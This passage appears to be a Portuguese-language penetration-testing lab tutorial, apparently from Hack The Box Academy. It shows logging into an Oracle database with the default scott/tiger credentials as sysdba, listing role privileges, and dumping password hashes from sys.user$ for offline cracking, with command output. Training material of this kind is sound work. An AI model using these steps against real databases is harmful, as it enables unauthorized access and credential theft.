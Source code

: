 Aqui, o usuário `scott` não tem privilégios administrativos. No entanto, podemos tentar usar essa conta para fazer login como administrador do banco de dados do sistema (`sysdba`), dando-nos privilégios mais altos. Isso é possível quando o usuário `scott` possui os privilégios apropriados normalmente concedidos pelo administrador do banco de dados ou usados pelo próprio administrador.

```shell-session
casluxd@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

Podemos seguir muitas abordagens quando tivermos acesso a um banco de dados Oracle. Depende muito das informações que temos e de toda a configuração. No entanto, não podemos adicionar novos usuários ou fazer modificações. A partir deste ponto, poderíamos recuperar os hashes de senha dos `sys.user$` e tente decifrá-los offline. A consulta para isso seria semelhante à seguinte:

```shell-session
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
```